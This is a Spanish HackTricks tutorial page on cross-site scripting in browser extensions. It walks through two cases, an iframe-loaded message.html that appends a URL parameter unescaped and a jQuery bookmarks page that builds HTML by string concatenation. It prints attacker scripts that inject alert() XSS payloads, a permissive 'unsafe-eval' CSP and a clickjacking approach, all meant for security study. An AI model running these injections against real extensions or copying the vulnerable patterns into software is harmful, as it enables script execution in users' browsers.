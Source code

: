 # BrowExt - Ejemplo de XSS

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## XSS en Iframe

**Content script** crea un Iframe indicando una **URL en los parámetros de la fuente del iFrame**:
```javascript
chrome.storage.local.get("message", result =>
{
frame.src = chrome.runtime.getURL("message.html") +
"?message=" + encodeURIComponent(result.message) +
"&url=https://example.net/explanation";
});
```
Una página html expuesta: **`message.html`**, accesible desde el **navegador**, contiene un código como:
```java
$(() =>
{
let params = new URLSearchParams(location.search);
$(document.body).append(params.get("message") + " <button>Explain</button>");
$("body > button").click(() =>
{
chrome.tabs.create({ url: params.get("url") });
});
});
```
La página maliciosa ejecuta un script como el siguiente para cambiar el mensaje por un **XSS payload**:
```javascript
setTimeout(() =>
{
let frame = document.querySelector("iframe:last-child");
let src = frame.src;

// Remove existing query parameters
src = src.replace(/\?.*/, "");

// Add malicious query parameters
src += "?message=" + encodeURIComponent("<script>alert('XSS')</script>");

// Load into frame
frame.src = src;
}, 1000);
```
Una política de seguridad de contenido permisiva como&#x20;
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
permitirá la ejecución del código JS.

Otra forma de activar el XSS a voluntad es ejecutando:
```javascript
let frame = document.createElement("iframe");
frame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?message="
+ encodeURIComponent("<script>alert('XSS')</script>");
document.body.appendChild(frame);
```
## XSS basado en DOM + ClickJacking

La primera vulnerabilidad es la vulnerabilidad de Cross-site Scripting (XSS) basada en DOM en **`/html/bookmarks.html`**, a continuación se muestra el JavaScript vulnerable incluido en **`bookmarks.js`**:
```javascript
$('#btAdd').click(function() {
var btname = $('#txtName').val();
if ($('.custom-button .name').filter(function() {
return $(this).text() === btname;
}).length) return false;

var span = $('<span class="custom-button">');
span.html('<span class="name">' + btname + '</span>');
span.append('<a href="javascript:void(0)" title="remove">x</a>');
span.attr('title', btname);
span.data('id', (new Date().getTime()));
$('div.custom-buttons .existing').append(span);
save_options();
});
```
El JavaScript anterior toma el **valor** del cuadro de texto **`txtName`** y utiliza **concatenación de cadenas para construir HTML** que se agrega al DOM a través de la función [“append()”](https://api.jquery.com/append/) de jQuery.

Normalmente, la Política de Seguridad de Contenido (CSP) de las extensiones de Chrome debería prevenir que esta vulnerabilidad sea explotada. Sin embargo, debido a la **relajación de esta política a través de** [**‘unsafe-eval’**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) y el uso de las APIs DOM de jQuery, aún fue posible **explotarla**. Esto se debe a que muchas de las APIs DOM de jQuery hacen uso de [“globalEval()”](https://api.jquery.com/jquery.globaleval/), que automáticamente pasa scripts a [“eval()”](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) al ser agregados al DOM.

Aunque esta es una vulnerabilidad grave, por sí sola la explotación es bastante limitada debido a la **interacción del usuario requerida para explotarla**. La víctima tendría que abrir la página, pegar un payload de Cross-site Scripting (XSS) en el campo y hacer clic en el botón "Add" para explotarla.

Para mejorar la explotación de esta vulnerabilidad hacemos uso de una vulnerabilidad separada (**clickjacking**) para reforzar el ataque.

El siguiente es un extracto del manifiesto de la extensión de Chrome:
```json
...trimmed for brevity...
"web_accessible_resources": [
"_locales/*",
"bundle/*",
"dist/*",
"assets/*",
"font/*",
"html/bookmarks.html",
"css/*.css",
"js/*.js",
"js/jquery/*.js",
"js/lang/*"
],
...trimmed for brevity...
```
La sección anterior demuestra que la extensión abarca mucho con su política de **`web_accessible_resources`**.

La página **`/html/bookmarks.html`** también puede ser **enmarcada** y por lo tanto **explotada** a través de **clickjacking**. Abusamos de esto para enmarcar esta página en nuestra página web y **superponer el marco con elementos DOM para rediseñar el layout**. Esto hace que la víctima no sea consciente de que está **interactuando realmente con la extensión debajo**. La siguiente animación demuestra este efecto (verifique la animación en el [**artículo original**](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)).

## Referencias

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

